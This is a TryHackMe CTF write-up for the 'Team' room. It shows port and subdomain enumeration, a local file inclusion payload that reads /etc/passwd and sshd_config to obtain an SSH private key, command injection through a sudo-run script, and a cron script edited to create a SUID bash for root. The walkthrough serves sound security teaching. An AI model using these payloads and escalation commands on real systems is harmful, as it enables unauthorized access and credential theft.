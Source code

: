 ```yaml
---
title: "TryHackMe - Team"
author: Nasrallah
description: ""
date: 2022-10-17 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, lfi, subdomain, cronjob]
img_path: /assets/img/tryhackme/team
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Team](https://tryhackme.com/room/teamcw) from [TryHackMe](https://tryhackme.com). After scanning the machine and finding a webserver, we discover a subdomain vulnerable to lfi giving the ability to read files on the system and finding an ssh private key giving us foothold to the machine. After that we find we can run a script as another user that doesn't handle user input in a secure way, so we exploit that to upgrade to that user. With our new user, we discover a script that's being run as a cronjob and that we can edit that script, so we edit the script to give us root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.250.228
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are tree open ports on Ubuntu Linux machine, port 21 running vsftpd, port 22 running OpenSSH and port 80 running Apache.

### Web

Let's navigate to the web page.

![](1.png)

It's the Apache2 Ubuntu default page. Let's check the source code.

![](2.png)

In the title element, we found a message stating that we need to add team.thm to our /etc/hosts file, os let's do that and navigate to the domain.

![](3.png)

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://team.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/19 07:31:42 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/robots.txt           (Status: 200) [Size: 5]                                
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/server-status        (Status: 403) [Size: 273]                               
===============================================================
```

We found robots.txt which contains a possible username.

Let's scan the target for subdomains using the following command:

```bash
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://team.thm -H "Host: FUZZ.team.thm" --fw 3512 
```

![](4.png)

Found `dev` subdomain, let's add to our hosts and navigate to it.

![](5.png)

There is a link in this page redirecting us to `http://dev.team.thm/script.php?page=teamshare.php`.

Let's see if this parameter is vulnerable to Local File Inclusion by requesting `http://dev.team.thm/script.php?page=../../../../etc/passwd`

![](6.png)


## **Foothold**

I checked `dale`'s home directory for an ssh key as well as `gyles` but could find anything, but if we check ssh config file at `/etc/ssh/sshd_config`, we find a private ssh key.

```text
http://dev.team.thm/script.php?page=../../../../etc/ssh/sshd_config
```

![](7.png)

Let's copy that to our machine, give it the right permission and connect with it.

![](8.png)


## **Privilege Escalation**

Let's check our current privileges with `sudo -l`.

```terminal
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
dale@TEAM:~$ 

```

We can run a script called `admin_checks` as `gyles`, let's check the script.

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

We can see in line nice, the scripts takes input from the user and put it in variable `error`, then in line 11, whatever in the `error` variable gets executed.

We can enter `/bin/bash` and it will be executed giving a shell as `gyles`.

![](9.png)

As gyles, I uploaded a copy of linpeas, run it and got the following.

![](10.png)

There is an interesting file that we can edit named `main_backup.sh`. Let's check it out.

![](11.png)

The script copies the content of team.thm and put in a backup directory. When we check that backup, we notice that it's been done very recently, so there must a cronjob running.

I added the following command to the script that would make a copy of bash in /tmp and give suid bit.

```bash
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

![](12.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

